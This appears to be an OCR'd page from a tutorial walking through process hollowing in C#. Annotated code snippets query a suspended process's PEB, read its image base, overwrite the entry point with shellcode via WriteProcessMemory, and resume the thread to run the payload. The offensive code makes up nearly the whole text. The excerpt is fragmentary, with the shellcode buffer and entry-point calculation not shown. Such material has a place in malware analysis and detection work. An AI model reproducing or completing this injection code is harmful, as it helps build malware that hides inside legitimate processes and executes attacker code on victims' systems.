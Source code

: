 #### Query Process Basic Information

```csharp
            // Get Process Environment Block

 (PEB) memory address of suspended process (offset 0x10 from base image)
            ProcessBasicInfo pbInfo = new ProcessBasicInfo();
            uint retLen = new uint();
            long qResult = ZwQueryInformationProcess(pInfo.hProcess, PROCESSBASICINFORMATION, ref pbInfo, (uint)(IntPtr.Size * 6), ref retLen);
            IntPtr baseImageAddr = (IntPtr)((Int64)pbInfo.PebAddress + 0x10);
            // Queries the basic process information to get the PEB address and then calculates the base image address.
```

#### Read Process Memory

```csharp
            // 1. Read executable address from first 8 bytes (Int64, offset 0) of PEB and read data chunk for further processing
            byte[] procAddr = new byte[0x8];
            byte[] dataBuf = new byte[0x200];
            IntPtr bytesRW = new IntPtr();
            bool result = ReadProcessMemory(pInfo.hProcess, baseImageAddr, procAddr, procAddr.Length, out bytesRW);
            IntPtr executableAddress = (IntPtr)BitConverter.ToInt64(procAddr, 0);
            result = ReadProcessMemory(pInfo.hProcess, executableAddress, dataBuf, dataBuf.Length, out bytesRW);
            // Reads the executable's base address from PEB, then reads a chunk of data from the executable for parsing.
```

#### Manipulate and Inject Code

```csharp
            // Overwrite the memory at the identified address to 'hijack' the entrypoint of the executable
            result = WriteProcessMemory(pInfo.hProcess, entrypointAddr, buf, buf.Length, out bytesRW);
            // Writes the shellcode to the entry point of the executable in the target process.

            // Resume the thread to trigger our payload
            uint rResult = ResumeThread(pInfo.hThread);
            // Resumes the main thread of the target process, causing it to execute the injected shellcode.
        }
    }
}
// End of class and namespace.
```

This detailed breakdown covers each significant part of the code, explaining the purpose and functionality within the context of implementing process hollowing in C#.
